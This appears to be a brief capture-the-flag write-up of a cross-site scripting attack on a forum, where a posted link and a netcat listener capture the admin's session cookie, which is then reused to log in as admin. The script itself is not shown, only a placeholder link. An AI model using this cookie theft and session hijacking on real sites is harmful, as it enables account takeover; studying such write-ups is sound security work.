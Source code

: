 After logging in to the forum as the user m0th3r_5up3r10r, we went to the general forum and submitted a post.
In the message of the post, we inserted the following <a> tag which contains the the exploit script to read all the cookies using an XmlHttpRequest
<a href="IP:PORT">link</a>

Now we have a service listening on port XXXX on localhost (nc -l -v IP PORT)

When the admin clicks on the link present in the post, we received the HTTP request on our service that reveals the session of the admin
We copied this session and replaced our user session with this new value and set it.

After setting the admin session and reloading the page we were successfully logged in as the admin.
Now inspecting the source of the forum page revealed the next secret at the bottom of the page source.

Note: This is not the only way to perform an XSS exploit. This is the one that was more convenient as per the situation.